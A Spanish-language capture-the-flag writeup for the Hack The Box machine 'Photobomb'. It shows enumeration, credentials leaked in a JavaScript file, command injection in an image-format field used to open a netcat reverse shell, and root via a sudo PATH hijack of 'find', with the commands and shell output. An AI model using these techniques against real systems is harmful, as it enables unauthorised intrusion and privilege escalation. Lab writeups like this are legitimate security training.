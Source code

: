 ```yaml
---
title: Photobomb Writeup
author: L4nder
date: 2023-02-06
img_path: /assets/img/HTB/Photobomb
categories: [Writeup, HTB]
tags: [HackTheBox, Writeup, RCE, Easy, Path Hijacking, Sudo]
image:
  path: /photobomb.png
  width: 800
  height: 500
  alt: Photobomb
---
```


Bueeeno, el dia de hoy nos haremos una maquina de dificultad **FACIL**!, de hecho, fue mi primera máquina activa que hice xD, le tengo nostalgia a la máquina.

Bueno, en esta máquina tocaremos los siguientes puntos:
- Virtual Hosting
- Code Injection (RCE)
- Y un Path Hijacking para la escalada de privilegios!

## Enumeración

Primero vamos a comprobar que la máquina esté encendida con una traza ICMP (ping).

```plaintext
❯ ping -c 1 10.10.11.182
PING 10.10.11.182 (10.10.11.182) 56(84) bytes of data.
64 bytes from 10.10.11.182: icmp_seq=1 ttl=63 time=34.4 ms

--- 10.10.11.182 ping statistics --- 
1 packet transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 36.212/36.212/36.212/0.000 ms
```

En el output del comando podemos ver el parámetro `ttl`, el cual indica que es equivalente a `63`, nos podemos guiar del siguiente esquema para diferenciar a que sistema operativo nos estamos enfrentando.

```plaintext
TTL(64) -> GNU/Linux
TTL(128) -> Windows
```

En nuestro caso, el TTL se aproxima a 64, pero sin serlo, esto pasa porque en plataformas como HackTheBox o TryHackMe la traza ICMP pasa por un nodo intermediario, el cual le resta 1 punto al TTL.

Bueno, como en todas las máquinas, tendremos que comenzar escaneando todos los puertos, primeramente escanearemos TCP.

```plaintext
❯ nmap 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
```

Al hacer un curl a la web y fijarnos en las cabeceras, podemos observar que nos redirige a `photobomb.htb`, este termino se le conoce como **VIRTUAL HOSTING**, ya que en este caso no podemos acceder a la web por la IP.

```plaintext
❯ curl -s 10.10.11.182 -I | grep "Location"
Location: http://photobomb.htb/
```

Bueno, tendremos que añadir el dominio `photobomb.htb` al /etc/hosts

```plaintext
❯ echo "10.10.11.182 photoboomb.htb" | sudo tee -a /etc/hosts
```

Si nos fijamos en el código fuente encontramos un archivo .js con el siguiente contenido

```shell
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Si nos fijamos bien, encontramos la url `http://pH0t0:b0Mb!@photobomb.htb/printer`, al abrirla nos autentica automaticamente, y podemos ver lo siguiente

<img src="Web1.png">

En la parte de abajo podemos descargar las imagenes en formato png y jpg.

<img src="descargar.png">

## Explotación

Interceptando la petición podemos observar que para elegir el formato de la imagen se puede cambiar aquí.

<img src="burp.png">

Nos podmemos imaginar que la web usa un binario para la conversión del formato de la imagen, si este es el caso, podemos concatenarle un comando.

Así que crearemos una reverse shell con nc y mkfifo en [Reverse Shells](https://revshells.com), recordad que esta ha de ser url encodeada.

<img src="rev.png">
<img src="rev2.png">

Para poner el cmoando despues del png pnemos un `;` y nuestr oneliner

<img src="burprev.png">

Al darle a forward recibimos la shell y conseguimos la primera flag!

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.182] 44954
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ hostname -I
hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
wizard@photobomb:~/photobomb$ cat ../user
cat ../user.txt
638**************************393
wizard@photobomb:~/photobomb$
```

## Escalada de Privilegios

Al mirar los privilegios que tenemos, observamos que podemos ejecutar un script, pero además tenemos la capacidad de setear variables de entorno

```plaintext
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$
```

Mirando el script podemos ver que usa find de manera relativa y no con su ruta absoluta.

```plaintext
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$
```

Nos podemos aprovechar de nuestro privilegio de poder setear variables de entorno como el path para que nos ejecute el coamndo find personalizado, y bajo el contexto de root nuestro comando find personalizado se ejecutará como root

Para esto tendremos que crear un archivo find que tenga bash en su interior y le daremos permisos de ejecución.

```plaintext
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$
```

Ahora cambiamos la variable path y ejecutamos el script, consiguiendo una consola como root

```plaintext
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
0ad********************058
root@photobomb:/home/wizard/photobomb#
```

Bueno, este ha sido mi primer writeup! Espero que os haya gustado!